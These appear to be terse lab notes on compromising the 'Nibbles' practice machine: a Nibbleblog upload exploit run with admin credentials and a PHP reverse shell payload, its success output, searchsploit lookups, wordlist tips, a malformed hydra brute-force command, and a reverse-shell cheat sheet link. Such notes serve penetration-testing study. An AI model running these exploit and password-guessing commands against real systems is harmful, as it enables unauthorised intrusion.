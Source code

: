 python nibbleblog.py --url http://nibbles/nibbleblog/ --username admin --password nibbles --payload php_reverse.php

 python nibbleblog.py --url http://nibbles/nibbleblog/ --username admin --password nibbles --payload php_reverse.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.


searchsploit nibbleblog
searchsploit -m exploits/php/remote/33489.rb

seclists
https://github.com/danielmiessler/SecLists

try rockyou-50.txt which is just 10000 words instead of rockyou which contains 14 million passwords

hydra -l admin -P http://nbbles http-post -req */nibbleblog/admin.php 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

![](20230505140506.png)
